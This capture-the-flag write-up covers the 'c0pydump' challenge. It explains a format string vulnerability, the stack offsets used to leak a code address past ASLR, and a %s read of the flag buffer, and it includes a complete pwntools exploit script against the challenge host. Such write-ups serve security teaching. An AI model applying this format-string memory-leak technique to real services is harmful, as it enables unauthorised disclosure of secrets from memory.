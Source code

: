 ```yaml
---
title: "c0pydump"
layout: page
---
```


Welcome to our printing service c0pydump! It is a highly secure application. Can you acquire the flag?

`nc challenges.crysys.hu 5006`

_author: tcs_

Attached file:
- [c0pydump.tar.gz](c0pydump.tar.gz)

## Writeup

Testing the service, I've quickly discovered that we have an old favorite format string injection vulnerability.

With some testing locally, I've found the following important stack offsets:
- `%7$p` is the address of our buffer (not very important, but I did not know)
- `%6$p` is the return address of `main`, i.e `__libc_csu_init`
- `%12$p-%13$p-%14$p` contain out input

The flag is read into a global buffer. Sadly, ASLR moves that randomly, so we can't just read it, but if we leak the address of `__libc_csu_init` we can calculate it.

If we enter a pointer, we can print it as `%s` and read the memory contents of that pointer as a string - so we can just read the flag this way.

Final exploit code:
```python
from pwn import *

r = remote("challenges.crysys.hu", 5006)
#r = process("c0pydump")

# %7$p is the address of our buffer (in the stack)
# %6$p __libc_csu_init

# %12$p-%13$p-%14$p are all our strings
# dump %6$p
# calculate ofset of FLAG
# print flag w/ %s

r.clean()
r.sendline("%6$p")
libc_csu = eval(r.clean().split(b"\n")[2])
base_address = libc_csu - 0x13b0
fl = base_address + 0x40a0
print(hex(fl))
print(p64(fl))
payload = b"%14$sAAA"+b"B"*8+p64(fl)

# print(payload)

r.sendline(payload)
r.interactive()
```
